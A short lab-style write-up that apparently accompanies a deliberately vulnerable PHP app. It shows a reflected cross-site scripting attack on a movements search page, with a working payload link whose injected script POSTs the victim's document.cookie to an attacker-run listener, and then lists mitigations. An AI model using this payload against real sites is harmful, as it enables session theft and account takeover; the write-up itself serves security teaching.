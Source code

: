 # Get cookies of specific user

This attack will exploit the search function on the movements page to grab the cookie of the user that clicks on the malicious link.

## Steps

- Listen on your machine for connections

    `docker run -it --rm --name node-logger -p 8000:8000 -v ${PWD}:/usr/src/app -w /usr/src/app node:alpine node logger.js`

- Create a malicious link

    `http://localhost:5000/movements.php?search="/><script>fetch("http://127.0.0.1:8000", {method:"POST", mode: "no-cors", body: document.cookie})</script>`

- Have the user visit the malicious link
- Grab the PHPSESSID cookie and take ownership of the account

## Mitigation

- Sanitize sent and received data [htmlspecialchars()](https://www.php.net/manual/en/function.htmlspecialchars.php) function
- Use appropriate response headers
- Use Content Security Policy
